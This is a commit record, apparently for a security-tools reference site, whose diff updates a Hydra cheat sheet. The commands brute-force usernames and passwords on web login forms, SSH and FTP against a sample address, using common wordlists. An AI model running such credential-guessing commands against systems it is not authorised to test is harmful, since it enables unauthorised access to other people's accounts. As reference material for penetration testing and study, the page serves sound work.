

Before and after one commit to hideckies/hackfruit, a Jekyll site: the page built from _fruits/Hydra.md, in a window 1280 px wide. Shown: the whole page, without its empty margins (224-1057 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 924 px from its top, so only the background shows below that.

````diff
--- a/_fruits/Hydra.md
+++ b/_fruits/Hydra.md
@@ -1,27 +1,38 @@
 ---
 title: Hydra
-desc: Cracks username and password.
+desc: Cracks username and password in web form, SSH, FTP.
 tags: [Cryptography, Linux, Password]
 alts: [CrackStation, Hashcat, JohnTheRipper]
 website:
 ---
 
-## Login form
+## Web form
 
 ```sh
-# Crack username in login page
-hydra -L /usr/share/seclists/Usernames/Names/names.txt -p secret 10.0.0.1 http-post-form "/login.php:username=^USER^&password=secret:Invalid Password" -v -f
+# Crack username
+hydra -L /usr/share/seclists/Usernames/Names/names.txt -p secret 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
 
-# Crack password in login page
-hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 http-post-form "/login.php:username=admin&password=^PASS^:Invalid Password" -v -f
+# Crack password
+hydra -l username -P /usr/share/wordlists/rockyou.txt 10.0.0.1 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect"
 ```
+
+<br />
 
 ## SSH
 
 ```sh
-# Crack username in SSH
+# Crack username
 hydra -v -L /usr/share/seclists/Usernames/Names/names.txt -p password 10.0.0.1 ssh
 
-# Crack password in SSH
+# Crack password
 hydra -v -l username -P /usr/share/seclists/Passwords/darkc0de.txt 10.0.0.1 ssh
 ```
+
+<br />
+
+## FTP
+
+```sh
+# Crack password
+hydra -l username -P passwords.txt ftp://10.0.0.1
+```
````
Also changed, not shown: _fruits/Ffuf.md (+7 -0 lines), _fruits/JohnTheRipper.md (+14 -13 lines), _fruits/SQLInjectionCheatSheet.md (added, +7 -0 lines), _fruits/SSH.md (+11 -1 lines), _fruits/Sqlmap.md (+24 -3 lines).
